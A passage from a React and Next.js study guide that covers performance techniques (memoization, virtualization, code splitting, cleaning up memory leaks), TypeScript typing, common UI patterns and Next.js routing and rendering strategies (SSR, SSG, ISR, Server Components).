

### 29.4 React.memo: Prevent Unnecessary Re-renders

**What it is:** A Higher-Order Component (HOC) that wraps a component and skips re-rendering if its **props haven't changed** (shallow comparison).

**When to use:** Pure/display components that re-render often with the same props and are expensive to render (list items, cards, charts).

```jsx
const UserCard = React.memo(({ name, age }) => {
  console.log("Rendered!");
  return <div>{name} - {age}</div>;
});
// Parent re-renders → UserCard does NOT re-render if name & age are the same

const ExpensiveList = React.memo(function ExpensiveList({ items }) {
  return <ul>{items.map(i => <li key={i.id}>{i.name}</li>)}</ul>;
});

// With custom comparison (return true = props equal = skip render)
export default React.memo(MyComponent, (prevProps, nextProps) => {
  return prevProps.value === nextProps.value;
});
```

> ⚠️ Avoid using it everywhere. It adds overhead for comparison, and it's useless if you pass new object/array/function references every render — combine it with `useMemo`/`useCallback`. It doesn't stop re-renders caused by the component's own state or context.

### 29.5 React.memo vs PureComponent

Both prevent unnecessary re-renders by doing **shallow prop comparison**.

| | React.Component | React.PureComponent | React.memo |
|---|---|---|---|
| Type | Class | Class | Functional |
| Re-render check | Always (unless `shouldComponentUpdate`) | Shallow compare props **and state** | Shallow compare **props** (custom comparator optional) |

### 29.6 useMemo + useCallback Together

```jsx
function Parent({ data }) {
  const [selected, setSelected] = useState(null);

  // Memoize computed value (copy before sort — don't mutate props)
  const sortedData = useMemo(
    () => [...data].sort((a, b) => a.name.localeCompare(b.name)),
    [data]
  );

  // Memoize callback so MemoChild doesn't re-render
  const handleSelect = useCallback((id) => {
    setSelected(id);
  }, []);

  return <MemoChild data={sortedData} onSelect={handleSelect} />;
}

const MemoChild = React.memo(Child);
```

All three pieces are needed together: `React.memo` on the child + stable props from `useMemo`/`useCallback`.

### 29.7 Avoid Inline Functions and Objects in JSX (for Memoized Children)

```jsx
// ❌ Bad — new function reference created on every render
<Button onClick={() => handleDelete(id)} />
<Chart options={{ animate: true }} />   // new object every render

// ✅ Good — stable references
const onDelete = useCallback(() => handleDelete(id), [id]);
const options = useMemo(() => ({ animate: true }), []);
<Button onClick={onDelete} />
<Chart options={options} />
```

Even if `Button` is wrapped in `React.memo`, the inline function gives it a new prop reference each time → memo is bypassed → re-render happens.

> **Nuance:** For cheap, non-memoized components (e.g. a plain `<button>`), inline functions are perfectly fine — creating a function is cheap. Only optimize when the child is memoized or expensive.

### 29.8 Avoid Unnecessary useEffect

```jsx
// ❌ Unnecessary effect — this is just a derived value!
const [doubled, setDoubled] = useState(0);
useEffect(() => {
  setDoubled(count * 2); // Extra render cycle!
}, [count]);

// ✅ Just compute it during render
const doubled = count * 2; // No effect needed (useMemo if expensive)
```

> Rule of thumb: If you can compute a value from existing state/props, don't put it in state or useEffect. Effects are for **synchronizing with external systems** (network, DOM, subscriptions), not for transforming data or reacting to user events (do that in the event handler).

### 29.9 State Structure: Avoid Large State Objects, Colocate State

```jsx
// ❌ Bad — any field change re-renders everything using this state
const [form, setForm] = useState({ name: '', email: '', address: '', phone: '' });

// ✅ Better — split into separate state or use useReducer
const [name, setName] = useState('');
const [email, setEmail] = useState('');
```

- **Colocate state:** keep state as low in the tree as possible — only the component that needs it re-renders.
- **Push state down / lift content up:** move fast-changing state into a small child component, and pass slow parts as `children` so they aren't re-rendered.
- Use `useRef` for values that don't affect the UI ([25.5](#255-useref)).
- Use uncontrolled inputs for large forms ([24.9](#249-controlled-vs-uncontrolled-components)).

### 29.10 Virtualization for Large Lists

**Problem:** Rendering 10,000 rows = 10,000 DOM nodes → slow initial render, slow scroll, high memory.

**Solution:** Render only the items **visible in the viewport** (plus a small buffer), and reuse nodes as the user scrolls. Libraries: `react-window`, `react-virtualized`, TanStack Virtual.

```jsx
import { FixedSizeList } from 'react-window';

const Row = ({ index, style }) => (
  <div style={style}>Row {index}</div>  // style positions the row absolutely — always apply it
);

<FixedSizeList
  height={500}        // Visible container height
  itemCount={10000}   // Total items
  itemSize={35}       // Each row height
  width="100%"
>
  {Row}
</FixedSizeList>

// Only ~15 rows are in the DOM at any time, not 10,000!
```

```jsx
// Using real data
function VirtualList({ items }) {
  const Row = ({ index, style }) => (
    <div style={style}>{items[index].name}</div>
  );

  return (
    <FixedSizeList height={600} itemCount={items.length} itemSize={35} width="100%">
      {Row}
    </FixedSizeList>
  );
}
```

> Use `VariableSizeList` for rows of different heights. Trade-offs: Ctrl+F browser search and some accessibility features only see rendered rows.

### 29.11 Lazy Loading and Code Splitting

**Code splitting** = break one large JS bundle into **smaller chunks** loaded on demand.
**Lazy loading** = load a component's JS **only when it's needed** (rendered), not on initial page load.

```
Without splitting:  bundle.js = 2MB → User downloads all 2MB upfront

With splitting:
  main.js      = 300KB (loads first)
  dashboard.js = 500KB (loads when user visits /dashboard)
  admin.js     = 700KB (loads only for admin users)
```

```jsx
import React, { lazy, Suspense } from 'react';

// ❌ Normal import — always loaded upfront
// import HeavyChart from './HeavyChart';

// ✅ Lazy import — loaded only when rendered
const HeavyChart = lazy(() => import('./HeavyChart'));

function Dashboard() {
  return (
    <Suspense fallback={<div>Loading chart...</div>}>
      <HeavyChart />
    </Suspense>
  );
}

// Route-based splitting (most common, biggest win) — see 27.10
const HomePage = lazy(() => import('./pages/Home'));

// Component-based splitting (heavy widgets: charts, editors, maps, modals)
const HeavyChartWidget = lazy(() => import('./components/HeavyChart'));
```

In Next.js, **every page/route is automatically code split**; use `next/dynamic` for components ([35.2](#352-nextdynamic-lazy-load-in-nextjs)). In plain React, use `React.lazy` + dynamic `import()`.

> `React.lazy` requires a **default export**. Wrap lazy components in an Error Boundary too — chunk downloads can fail.

### 29.12 Memory Leaks in React

Common causes and fixes:

```jsx
// ❌ Memory leak — setInterval not cleared
useEffect(() => {
  const id = setInterval(() => console.log('tick'), 1000);
  // Component unmounts → interval keeps running!
}, []);

// ✅ Clean up on unmount
useEffect(() => {
  const id = setInterval(() => console.log('tick'), 1000);
  return () => clearInterval(id); // Cleanup!
}, []);

// ❌ Memory leak — event listener not removed
// ✅ Fix — remove it in cleanup
useEffect(() => {
  window.addEventListener('resize', handler);
  return () => window.removeEventListener('resize', handler);
}, []);

// Ignore results that arrive after unmount (older pattern)
useEffect(() => {
  let isMounted = true;

  fetch('/api/data')
    .then(res => res.json())
    .then(data => {
      if (isMounted) setData(data); // Don't set state if unmounted
    });

  return () => { isMounted = false; };
}, []);
```

> Prefer **`AbortController`** to actually cancel the request ([25.4](#254-cleaning-up-effects)). Other leak sources: WebSocket/SSE connections, subscriptions (Firebase, RxJS), third-party library instances (maps, charts) — destroy them in cleanup.

### 29.13 Event Delegation in React

Instead of attaching listeners to 1000 list items, attach **one listener to the parent**.

```jsx
// ❌ 1000 event listeners (closures) created each render
{items.map(item => (
  <li key={item.id} onClick={() => handleClick(item.id)}>{item.name}</li>
))}

// ✅ One event listener on parent (native JS pattern)
<ul onClick={(e) => {
  const id = e.target.dataset.id;
  if (id) handleClick(id);
}}>
  {items.map(item => (
    <li key={item.id} data-id={item.id}>{item.name}</li>
  ))}
</ul>
```

> React already delegates events to the root internally, so the gain here is mainly fewer function allocations for very large lists. Use `e.target.closest('li')` if `<li>` has nested children.

### 29.14 Debouncing and Throttling in React

```jsx
// Debouncing — wait until user STOPS typing, then call
// Use for: search inputs, form validation
const debouncedSearch = useMemo(
  () => debounce((query) => fetchResults(query), 300),
  []
);
useEffect(() => () => debouncedSearch.cancel?.(), [debouncedSearch]); // cleanup on unmount (lodash)
<input onChange={e => debouncedSearch(e.target.value)} />
// User types "react" fast → only 1 API call after they stop

// Throttling — call at MOST once every X milliseconds
// Use for: scroll events, resize handlers, mouse move
const throttledScroll = useMemo(
  () => throttle(() => updateScrollPosition(), 100),
  []
);
useEffect(() => {
  window.addEventListener('scroll', throttledScroll);
  return () => window.removeEventListener('scroll', throttledScroll);
}, [throttledScroll]);
// Scroll fires 100 times/sec → throttle limits to 10 times/sec

// Debouncing a VALUE with the useDebounce hook (see 25.13)
const debounced = useDebounce(inputValue, 500);
```

> `useMemo` (or `useRef`) is required so the debounced function is created **once** — otherwise each render creates a new one with a fresh timer, and nothing is ever debounced. Plain-JS implementations: [19.6](#196-debounce-and-throttle).

### 29.15 Image Optimization

```jsx
// Lazy load images natively


// Responsive images

```

- Use modern formats (**WebP/AVIF**), compress, serve the right size per device.
- Lazy-load below-the-fold images, but **never** the LCP/hero image (preload it instead).
- In Next.js use `next/image` ([35.1](#351-nextimage-automatic-image-optimization)).

### 29.16 Performance Checklist

- [ ] Measured first with the Profiler / Lighthouse?
- [ ] Are expensive calculations memoized with `useMemo`?
- [ ] Are callbacks memoized with `useCallback` when passed to `React.memo` children?
- [ ] Is state colocated (not lifted higher than needed)?
- [ ] Are large lists virtualized?
- [ ] Are routes code-split with `React.lazy` / `next/dynamic`?
- [ ] Are images optimized (WebP, lazy load, proper sizing, width/height set)?
- [ ] Are contexts split / values memoized to avoid unnecessary re-renders?
- [ ] Are API calls debounced/throttled/cached where appropriate (React Query)?
- [ ] Are effects cleaned up to prevent memory leaks?
- [ ] Are list keys stable and unique (not index)?
- [ ] Are non-urgent updates wrapped in `useTransition` / `useDeferredValue`?

---

## 30. TypeScript with React

### 30.1 Typing Props

```tsx
// Interface for props
interface ButtonProps {
  label: string;
  onClick: () => void;
  disabled?: boolean; // optional prop
  children?: React.ReactNode; // anything React can render
}

function Button({ label, onClick, disabled = false }: ButtonProps) {
  return <button onClick={onClick} disabled={disabled}>{label}</button>;
}

// Extending native element props
type InputProps = React.ComponentProps<'input'> & { label: string };
```

### 30.2 Typing useState

```tsx
const [count, setCount] = useState<number>(0);   // often inferred: useState(0)
const [user, setUser] = useState<User | null>(null);
const [items, setItems] = useState<string[]>([]);
```

### 30.3 Typing useRef

```tsx
const inputRef = useRef<HTMLInputElement>(null);
// inputRef.current is HTMLInputElement | null → use inputRef.current?.focus()

const valueRef = useRef<number>(0); // mutable value, not null
```

### 30.4 Typing Events

```tsx
const handleChange = (e: React.ChangeEvent<HTMLInputElement>) => {
  setValue(e.target.value);
};

const handleSubmit = (e: React.FormEvent<HTMLFormElement>) => {
  e.preventDefault();
};

const handleClick = (e: React.MouseEvent<HTMLButtonElement>) => {
  console.log(e.currentTarget);
};
```

### 30.5 Typing useReducer

```tsx
type State = { count: number; loading: boolean };
type Action =
  | { type: 'increment' }
  | { type: 'decrement' }
  | { type: 'setLoading'; payload: boolean };   // discriminated union

function reducer(state: State, action: Action): State {
  switch (action.type) {
    case 'increment': return { ...state, count: state.count + 1 };
    case 'decrement': return { ...state, count: state.count - 1 };
    case 'setLoading': return { ...state, loading: action.payload }; // payload is typed as boolean here
    default: return state;
  }
}
```

### 30.6 Generic Components

```tsx
interface ListProps<T> {
  items: T[];
  renderItem: (item: T) => React.ReactNode;
}

function List<T>({ items, renderItem }: ListProps<T>) {
  return <ul>{items.map((item, i) => <li key={i}>{renderItem(item)}</li>)}</ul>;
}

// Usage — T is inferred as User
<List items={users} renderItem={(u) => <span>{u.name}</span>} />
```

> In `.tsx` files, a generic **arrow** component needs a trailing comma: `const List = <T,>(props: ListProps<T>) => ...`.

---

## 31. Practical React UI Patterns

### 31.1 Skeleton Loader Pattern

Show a placeholder with the **same shape and size** as the real content while loading — feels faster than a spinner and prevents layout shift (CLS).

```jsx
function UserCard({ isLoading, user }) {
  if (isLoading) {
    return (
      <div className="skeleton">
        <div className="skeleton-avatar" />
        <div className="skeleton-text" />
      </div>
    );
  }
  return <div>{user.name}</div>;
}
```

### 31.2 Pagination

```jsx
function Pagination({ total, pageSize, currentPage, onPageChange }) {
  const pages = Math.ceil(total / pageSize);
  return (
    <div>
      <button onClick={() => onPageChange(currentPage - 1)} disabled={currentPage === 1}>
        Prev
      </button>
      {Array.from({ length: pages }, (_, i) => (
        <button key={i + 1} onClick={() => onPageChange(i + 1)}
          className={currentPage === i + 1 ? 'active' : ''}>
          {i + 1}
        </button>
      ))}
      <button onClick={() => onPageChange(currentPage + 1)} disabled={currentPage === pages}>
        Next
      </button>
    </div>
  );
}
```

| | Offset pagination (`?page=3`) | Cursor pagination (`?after=abc`) |
|---|---|---|
| Jump to page N | ✅ | ❌ |
| Stable when items are inserted | ❌ (duplicates/skips) | ✅ |
| Best for | Tables, admin panels | Feeds, infinite scroll |

### 31.3 Infinite Scroll with Intersection Observer

```jsx
function useInfiniteScroll(callback) {
  const observerRef = useRef();

  // Callback ref — React calls it with the DOM node when the last item mounts
  const lastItemRef = useCallback(node => {
    if (observerRef.current) observerRef.current.disconnect();
    observerRef.current = new IntersectionObserver(entries => {
      if (entries[0].isIntersecting) callback();
    });
    if (node) observerRef.current.observe(node);
  }, [callback]);

  return lastItemRef;
}

// Usage
const lastItemRef = useInfiniteScroll(loadMore);
{posts.map((post, i) => (
  <div key={post.id} ref={i === posts.length - 1 ? lastItemRef : null}>
    <PostCard post={post} />
  </div>
))}
```

> Combine with React Query's `useInfiniteQuery` for cursor-based pages, and with [virtualization](#2910-virtualization-for-large-lists) for very long feeds. Guard against calling `loadMore` while a request is already in flight.

### 31.4 Dark Mode Toggle

```jsx
function useTheme() {
  const [theme, setTheme] = useState(() =>
    localStorage.getItem('theme') || 'light'
  );

  useEffect(() => {
    document.documentElement.setAttribute('data-theme', theme);
    localStorage.setItem('theme', theme);
  }, [theme]);

  const toggle = () => setTheme(t => t === 'light' ? 'dark' : 'light');
  return { theme, toggle };
}
```

```css
:root { --bg: #ffffff; --text: #111111; }
[data-theme='dark'] { --bg: #111111; --text: #f5f5f5; }
body { background: var(--bg); color: var(--text); }
```

> **SSR/Next.js trap:** the lazy initializer reads `localStorage`, which fails on the server, and the server can't know the user's theme → "flash of wrong theme". Solutions: an inline script in `<head>` that sets `data-theme` before paint, a cookie, or a library like `next-themes`. Also respect `prefers-color-scheme`.

---

# Part IV — Next.js

---

## 32. Next.js Fundamentals (Pages Router)

### 32.1 What is Next.js?

Next.js is a **React framework** (by Vercel) that adds production features on top of React:
- **Server-Side Rendering (SSR)**
- **Static Site Generation (SSG)**
- **Incremental Static Regeneration (ISR)**
- **File-based routing** (Pages Router `/pages` and App Router `/app`)
- **API routes / Route Handlers** (backend in the same project)
- **React Server Components, Server Actions, streaming** (App Router)
- **Image, font and script optimization**, automatic code splitting, middleware, edge runtime

**Why it matters:** Plain React (CSR) sends an almost-empty HTML page and renders in the browser → slower first paint and weaker SEO. Next.js can render HTML on the server or at build time.

### 32.2 File-Based Routing (Pages Router)

```
pages/
├── index.js            → /
├── about.js            → /about
├── blog/
│   ├── index.js        → /blog
│   └── [slug].js       → /blog/:slug   (dynamic route)
├── [...all].js         → catch-all
├── api/
│   └── hello.js        → /api/hello    (API route)
├── _app.js             → wraps every page
└── _document.js        → custom HTML shell
```

### 32.3 API Routes

Create **backend API endpoints** inside `pages/api/`. No extra server needed (they run as serverless/server functions).

```jsx
// pages/api/hello.js
export default function handler(req, res) {
  if (req.method === 'GET') {
    res.status(200).json({ message: 'Hello World' });
  } else {
    res.status(405).json({ error: 'Method not allowed' });
  }
}

// Dynamic: pages/api/users/[id].js
export default function handler(req, res) {
  const { id } = req.query;
  res.json({ userId: id });
}
```

> App Router equivalent: **Route Handlers** in `app/api/.../route.js` exporting `GET`, `POST`, etc. ([34.10](#3410-route-handlers-app-router-api)).

### 32.4 next/link and next/image

```jsx
import Link from 'next/link';
import Image from 'next/image';

// Link — client-side navigation with automatic prefetching
<Link href="/about">About</Link>

// Image — automatic optimization (resize, WebP, lazy load)
<Image
  src="/profile.jpg"
  width={300}
  height={300}
  alt="Profile"
  priority // skip lazy load for above-the-fold images
/>
```

Details on `next/image` in [35.1](#351-nextimage-automatic-image-optimization).

### 32.5 Environment Variables

```bash
# .env.local
DATABASE_URL=postgres://...          # Server only
NEXT_PUBLIC_API_URL=https://api.com  # Client + Server (prefix with NEXT_PUBLIC_)
```

```jsx
// Server-side
const dbUrl = process.env.DATABASE_URL;

// Client-side (only NEXT_PUBLIC_ prefix works)
const apiUrl = process.env.NEXT_PUBLIC_API_URL;
```

> **Security trap:** `NEXT_PUBLIC_` values are **inlined into the client JS bundle at build time** — never put secrets there. Changing them requires a rebuild. `.env.local` should not be committed.

### 32.6 Custom _app.js and _document.js

```jsx
// pages/_app.js — Wraps all pages, persists layout/state between navigations
import '../styles/globals.css';

export default function MyApp({ Component, pageProps }) {
  return (
    <ThemeProvider>
      <Layout>
        <Component {...pageProps} />
      </Layout>
    </ThemeProvider>
  );
}

// pages/_document.js — Custom HTML shell (rendered on the server only)
import { Html, Head, Main, NextScript } from 'next/document';

export default function Document() {
  return (
    <Html lang="en">
      <Head>
        <link rel="icon" href="/favicon.ico" />
      </Head>
      <body>
        <Main />
        <NextScript />
      </body>
    </Html>
  );
}
```

| | `_app.js` | `_document.js` |
|---|---|---|
| Runs | Server **and** client | Server only |
| Use for | Global CSS, providers, shared layout, page transitions | `<html lang>`, fonts, favicon, `<body>` attributes |
| Event handlers / state | ✅ | ❌ |

> App Router replaces both with the root `app/layout.js` ([34.3](#343-app-router-file-conventions-and-layouts)).

### 32.7 next/head for SEO

```jsx
import Head from 'next/head';

export default function Page() {
  return (
    <>
      <Head>
        <title>My Page Title</title>
        <meta name="description" content="Page description for SEO" />
        <meta property="og:title" content="My Page" />
      </Head>
      <main>Content...</main>
    </>
  );
}
```

> App Router equivalent: export a `metadata` object or `generateMetadata()` function from `page.js`/`layout.js`:
> ```js
> export const metadata = { title: 'My Page Title', description: 'Page description for SEO' };
> ```

### 32.8 Redirects and Rewrites

```js
// next.config.js
module.exports = {
  async redirects() {
    return [
      { source: '/old-page', destination: '/new-page', permanent: true }, // 308
    ];
  },
  async rewrites() {
    return [
      { source: '/api/:path*', destination: 'https://external-api.com/:path*' },
    ];
  },
};
```

| | Redirect | Rewrite |
|---|---|---|
| URL in browser changes | ✅ Yes | ❌ No (proxy) |
| HTTP | 307/308 (or 301/302) response | Same request served from another destination |
| Use case | Moved pages, SEO | Proxy an API (avoids CORS), A/B, multi-zone apps |

### 32.9 Internationalization (i18n)

```js
// next.config.js (Pages Router)
module.exports = {
  i18n: {
    locales: ['en', 'fr', 'de'],
    defaultLocale: 'en',
  },
};

// In component
import { useRouter } from 'next/router';
const { locale } = useRouter(); // 'en', 'fr', etc.
```

> The `i18n` config is **Pages Router only**. In the App Router, use a dynamic segment like `app/[locale]/page.js` + middleware to detect the locale (libraries: `next-intl`, `next-i18next`).

---

## 33. Rendering Strategies (CSR, SSR, SSG, ISR)

### 33.1 Overview

| Strategy | When HTML is generated | Data freshness | Best For |
|---|---|---|---|
| **CSR** (Client-Side Rendering, React default) | In the browser, after JS loads | Always fresh (client fetch) | Dashboards, authenticated apps, highly interactive tools |
| **SSR** (Server-Side Rendering) | On the server, **on every request** | Fresh per request | SEO pages with dynamic/personalized data, auth pages |
| **SSG** (Static Site Generation) | **At build time** | Stale until next build | Blogs, docs, marketing pages (rarely changing) |
| **ISR** (Incremental Static Regeneration) | At build, then **regenerated in the background** | Fresh within the revalidate window | Semi-dynamic: product pages, news |

```mermaid
flowchart TD
    subgraph CSR["CSR"]
        c1["Request"] --> c2["Server sends empty HTML shell + JS"]
        c2 --> c3["Browser downloads + runs JS"]
        c3 --> c4["Fetch data from API"]
        c4 --> c5["Render UI in browser"]
    end
    subgraph SSR["SSR"]
        s1["Request"] --> s2["Server fetches data"]
        s2 --> s3["Server renders full HTML"]
        s3 --> s4["Browser shows HTML immediately"]
        s4 --> s5["Hydration: JS attaches event handlers"]
    end
    subgraph SSG["SSG"]
        g0["next build: fetch data + render HTML once"] --> g1["HTML stored on CDN"]
        g1 --> g2["Request served instantly from CDN"]
        g2 --> g3["Hydration"]
    end
    subgraph ISR["ISR"]
        i1["Request served cached static HTML"] --> i2{"Older than revalidate seconds?"}
        i2 -- "No" --> i3["Done"]
        i2 -- "Yes" --> i4["Serve stale page now, regenerate in background"]
        i4 --> i5["Next request gets the fresh page"]
    end
```

| Metric | CSR | SSR | SSG | ISR |
|---|---|---|---|---|
| TTFB | Fast | Slower (server work per request) | Fastest (CDN) | Fastest (CDN) |
| First Contentful Paint | Slow | Fast | Fast | Fast |
| SEO | Weak | ✅ | ✅ | ✅ |
| Server cost | Low | High | Very low | Low |
| Personalized per user | ✅ | ✅ | ❌ | ❌ |

**Hydration** = React running in the browser on top of server-rendered HTML, attaching event handlers and making it interactive. Mismatches between server and client output (e.g. using `Date.now()`, `Math.random()`, or `window` during render) cause **hydration errors**.

### 33.2 SSR — getServerSideProps

Runs on the **server on every request**. Good for pages that need fresh, personalized data (it has access to cookies/headers via `context.req`).

```jsx
export async function getServerSideProps(context) {
  const { params, query, req, res } = context;
  const data = await fetch(`https://api.example.com/posts/${params.id}`).then(r => r.json());

  return { props: { data } };
  // Also possible: return { notFound: true } or { redirect: { destination: '/login', permanent: false } }
}

export default function Page({ data }) {
  return <div>{data.title}</div>;
}
```

```jsx
// Personalized example
export async function getServerSideProps(context) {
  const user = await getUser(context.req);
  return { props: { user } };
}
```

### 33.3 SSG — getStaticProps

Runs **at build time** (never in the browser). Data is baked into the HTML. Use for pages that don't change often.

```jsx
export async function getStaticProps() {
  const data = await fetchData();
  return { props: { data } };
}
```

### 33.4 ISR — Incremental Static Regeneration

Best of SSG + SSR: pages are **static by default** but get **regenerated in the background** at most once per interval (stale-while-revalidate behavior).

```jsx
export async function getStaticProps() {
  const posts = await fetch('https://api.example.com/posts').then(r => r.json());

  return {
    props: { posts },
    revalidate: 60, // ISR — regenerate at most every 60 seconds
  };
}
```

```jsx
export async function getStaticProps() {
  const data = await fetchData();
  return {
    props: { data },
    revalidate: 30, // Page will be regenerated at most every 30 seconds
  };
}
```

**How it works:** the first request after the 60s window still gets the **stale** page instantly; that request triggers a background rebuild; later requests get the new page. **On-demand revalidation** (`res.revalidate('/path')` in Pages Router, `revalidatePath`/`revalidateTag` in App Router) rebuilds immediately, e.g. from a CMS webhook.

### 33.5 Dynamic Routes with getStaticPaths

For SSG with dynamic paths, tell Next.js which paths to pre-render at build time.

```jsx
// pages/posts/[id].js

export async function getStaticPaths() {
  const posts = await fetchAllPosts();
  const paths = posts.map(post => ({ params: { id: String(post.id) } }));

  return {
    paths,
    fallback: false,      // 404 for ungenerated paths
    // fallback: true     // Show loading state (router.isFallback), then generate
    // fallback: 'blocking' // SSR for new paths on first request, then cache
  };
}

export async function getStaticProps({ params }) {
  const post = await fetchPost(params.id);
  return { props: { post } };
}
```

| `fallback` | Unknown path behavior | Use when |
|---|---|---|
| `false` | 404 | Small, fixed set of pages |
| `true` | Serve a fallback/loading page, generate in background | Many pages, OK to show loading state |
| `'blocking'` | Server-render on first request (no loading state), then cache | Many pages, better SEO/UX |

### 33.6 Quick Revision: Next.js Data Fetching

| Method | Router | Runs | Use when |
|---|---|---|---|
| `getStaticProps` | Pages | Build time (+ revalidate) | Data doesn't change often |
| `getServerSideProps` | Pages | Every request (server) | Fresh data, user-specific |
| `getStaticPaths` | Pages | Build time | Define dynamic SSG paths |
| ISR (`revalidate`) | Both | Build + interval | Mostly static, updates periodically |
| Server Components (`async` + `fetch`) | App | Server (build or per request) | App Router default |
| Server Actions | App | Server, on form submit / call | Mutations |
| `useEffect` fetch / React Query / SWR | Both | Client side | After page load, interactive, user-specific |

### 33.7 Choosing a Strategy

| Page | Strategy | Why |
|---|---|---|
| Marketing / landing page | SSG | Same for everyone, fastest |
| Blog post, docs | SSG / ISR | Rarely changes; ISR for CMS updates |
| Product page | ISR (+ client fetch for price/stock) | SEO + mostly static; inventory must be fresh |
| Search results | SSR | Depends on query, needs SEO |
| User dashboard | CSR or SSR (no SEO need) | Personalized, behind login |
| Real-time chat | CSR + WebSocket | Highly interactive |

---

## 34. App Router, Server Components and Data Fetching

### 34.1 App Router vs Pages Router (Next.js 13+)

| Feature | Pages Router (`/pages`) | App Router (`/app`) |
|---|---|---|
| Introduced | Next.js original | Next.js 13 (stable 13.4) |
| Components | Client by default | **Server by default** (React Server Components) |
| Data fetching | `getServerSideProps`, `getStaticProps` | `async/await` directly in server components |
| Layouts | `_app.js` (manual) | Nested `layout.js` files (built-in, persistent) |
| Streaming | ❌ | ✅ (`loading.js`, `<Suspense>`) |
| Loading / error UI | Manual | `loading.js`, `error.js`, `not-found.js` |
| Mutations | API routes | Server Actions + Route Handlers |
| SEO | `next/head` | `metadata` / `generateMetadata` |
| Routing hooks | `next/router` | `next/navigation` (`useRouter`, `usePathname`, `useSearchParams`) |

### 34.2 Next.js Rendering Architecture (App Router)

```mermaid
flowchart TD
    REQ["Browser request /products/42"] --> MW["Middleware (edge): auth, redirects, rewrites"]
    MW --> RT["Router matches app/products/[id]/page.js"]
    RT --> RSC["Render Server Components on server (fetch data, read DB, secrets OK)"]
    RSC --> PAY["RSC payload + HTML for server parts"]
    RSC --> CC["Client Components ('use client') pre-rendered to HTML on server"]
    PAY --> STREAM["Stream HTML chunks: layout first, Suspense fallbacks, then resolved sections"]
    CC --> STREAM
    STREAM --> BROWSER["Browser shows HTML progressively"]
    BROWSER --> HYD["Hydrate ONLY client components (JS bundles for 'use client' only)"]
    HYD --> NAV["Client-side navigation fetches RSC payload, keeps layouts and state"]
```

### 34.3 App Router File Conventions and Layouts

```
app/
├── layout.js          ← Root layout (wraps everything; must render <html> and <body>)
├── page.js            ← Home page (/)
├── loading.js         ← Suspense fallback for this segment
├── error.js           ← Error boundary for this segment ('use client')
├── not-found.js       ← 404 UI
└── dashboard/
    ├── layout.js      ← Dashboard layout (wraps dashboard pages, persists across navigation)
    ├── page.js        ← /dashboard page
    └── [id]/
        └── page.js    ← /dashboard/:id (params.id)
```

```jsx
// app/layout.js
export default function RootLayout({ children }) {
  return (
    <html lang="en">
      <body>
        <Navbar />
        {children}
        <Footer />
      </body>
    </html>
  );
}
```

| File | Purpose |
|---|---|
| `page.js` | Makes the route publicly accessible; the UI for that URL |
| `layout.js` | Shared UI that **wraps** child segments and does **not re-render/remount** on navigation |
| `template.js` | Like layout but **remounts** on every navigation |
| `loading.js` | Instant loading UI (auto-wrapped in `<Suspense>`) |
| `error.js` | Error boundary for the segment (must be a Client Component) |
| `not-found.js` | UI for `notFound()` |
| `route.js` | API endpoint (Route Handler) |
| `(group)/` | Route group — organizes files without affecting the URL |
| `[slug]`, `[...slug]` | Dynamic / catch-all segments |

### 34.4 Server vs Client Components

**Server Components (RSC)** run **only on the server**. Their code is never sent to the browser — the client receives the rendered output (HTML + a serialized "RSC payload"). **Client Components** are the classic React components: pre-rendered to HTML on the server, then **hydrated** in the browser.

```jsx
// app/page.js — Server Component (default)
// Can use async/await directly, no hooks allowed
async function Page() {
  const data = await fetch('https://api.example.com/data').then(r => r.json());
  return <div>{data.title}</div>;
}

// app/products/[id]/page.tsx — direct DB access on the server
async function ProductPage() {
  const product = await db.getProduct(1); // DB call on server!
  return <div>{product.name}</div>;
  // Zero JS for this component is sent to client ✅
}
```

```jsx
// Client Component — must add 'use client' directive at the TOP of the file
'use client';
import { useState } from 'react';

export function Counter() {
  const [count, setCount] = useState(0);
  return <button onClick={() => setCount(c => c + 1)}>{count}</button>;
}

// AddToCartButton.jsx
'use client';
export function AddToCartButton() {
  const [added, setAdded] = useState(false);
  return <button onClick={() => setAdded(true)}>Add to Cart</button>;
}
```

| Capability | Server Component | Client Component |
|---|---|---|
| `async/await` data fetching in component | ✅ | ❌ (use hooks / React Query) |
